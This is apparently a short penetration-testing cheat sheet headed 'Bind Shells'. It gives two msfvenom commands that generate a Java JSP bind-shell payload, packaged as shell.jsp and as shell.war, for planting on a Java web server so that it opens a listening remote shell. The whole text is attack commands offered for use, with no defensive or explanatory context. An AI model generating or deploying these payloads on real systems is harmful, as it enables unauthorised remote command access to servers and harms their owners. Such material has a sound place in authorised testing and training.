 # Bind Shells

## 01 - JSP

```
$ msfvenom -p java/jsp_shell_bind_tcp lport=<PORT> -f raw -o shell.jsp
```

## 02 - WAR

```
$ msfvenom -p java/jsp_shell_bind_tcp lport=<PORT> -f raw -o shell.war
```